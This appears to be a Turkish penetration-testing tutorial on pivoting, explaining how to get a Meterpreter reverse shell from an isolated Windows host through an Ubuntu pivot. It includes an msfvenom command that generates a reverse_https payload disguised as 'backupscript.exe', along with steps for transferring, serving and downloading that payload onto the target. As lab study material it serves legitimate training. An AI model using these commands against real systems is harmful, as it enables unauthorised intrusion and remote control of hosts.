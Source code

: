 Peki ya reverse shell elde etmeye çalışırsak ne olur?

Windows host için giden bağlantı yalnızca 172.16.5.0/23 ağıyla sınırlıdır. Bunun nedeni, Windows host'un saldırı host'unun bulunduğu ağ ile doğrudan bir bağlantısının olmamasıdır. Saldırı hostumuzda bir Metasploit dinleyicisi başlatır ve bir reverse shell elde etmeye çalışırsak, Windows sunucusu kendi ağından (172.16.5.0/23) çıkan trafiği 10.129.x.x (Attack Hostumuz ile Aynı Ağ Adresi) ağına ulaşmak için nasıl yönlendireceğini bilmediğinden burada doğrudan bir bağlantı elde edemeyiz.

Bir sızma testi çalışması sırasında sadece remote masaüstü bağlantısının mümkün olmadığı birkaç zaman vardır. Dosyaları yüklemek/indirmek (RDP panosu devre dışı bırakıldığında), Windows hostlarında numaralandırma yapmak için bir Meterpreter oturumu kullanarak istismarları veya düşük seviyeli Windows API'sini kullanmak isteyebilirsiniz; bu, yerleşik Windows “ [execables](https://lolbas-project.github.io/) ” kullanılarak mümkün değildir.

Bu durumlarda, saldırı hostumuz ile Windows sunucusu arasında ortak bir port olan bir pivot host bulmamız gerekecektir. Bizim durumumuzda, pivot hostumuz hem saldırı hostumuza hem de Windows hedefine bağlanabildiği için Ubuntu sunucusu olacaktır. Windows üzerinde bir Meterpreter shell elde etmek için msfvenom kullanarak bir Meterpreter HTTPS payload'u oluşturacağız, ancak payload için reverse connection yapılandırması Ubuntu sunucusunun host IP adresi (172.16.5.129) olacaktır. Tüm reverse paketlerimizi Metasploit dinleyicimizin çalıştığı saldırı hostlarımızın 8000 portuna yönlendirmek için Ubuntu sunucusundaki 8080 portunu kullanacağız.

#### Creating a Windows Payload with msfvenom
```shell-session
$ msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080
```

### Multi/handler'ı Konfigüre Etme ve Başlatma
![Pasted image 20241004132525.png](/img/user/resimler/Pasted%20image%2020241004132525.png)

Payload'umuz oluşturulduktan ve dinleyicimiz yapılandırılıp çalıştırıldıktan sonra, Ubuntu sunucusuna SSH kullanarak bağlanmak için gerekli kimlik bilgilerine zaten sahip olduğumuzdan, scp komutunu kullanarak payload'u Ubuntu sunucusuna kopyalayabiliriz.

#### Transferring Payload to Pivot Host
![Pasted image 20241004132710.png](/img/user/resimler/Pasted%20image%2020241004132710.png)
`scp` (Secure Copy Protocol), bir bilgisayar ağında dosya transferi yapmak için kullanılan bir komuttur. SSH (Secure Shell) protokolü üzerinden güvenli bir şekilde dosya kopyalamak için kullanılır.

`:~/`: Dosyanın hedef sunucudaki yerini belirtir. Bu durumda, dosya hedef sunucunun kullanıcısının ana dizinine (`~` işareti) kopyalanacaktır.

Özetle, bu komut `backupscript.exe` adlı dosyayı hedef sunucunun ana dizinine kopyalar.

Payloadu kopyaladıktan sonra, Ubuntu sunucusunda payloadumuzu kopyaladığımız aynı dizinde aşağıdaki komutu kullanarak bir python3 HTTP sunucusu başlatacağız.


#### Starting Python3 Webserver on Pivot Host
![Pasted image 20241004132915.png](/img/user/resimler/Pasted%20image%2020241004132915.png)

### Windows Hedefinden Payload İndirme
Bu backupscript.exe dosyasını Windows host'undan bir web tarayıcısı veya PowerShell cmdlet'i Invoke-WebRequest aracılığıyla indirebiliriz.

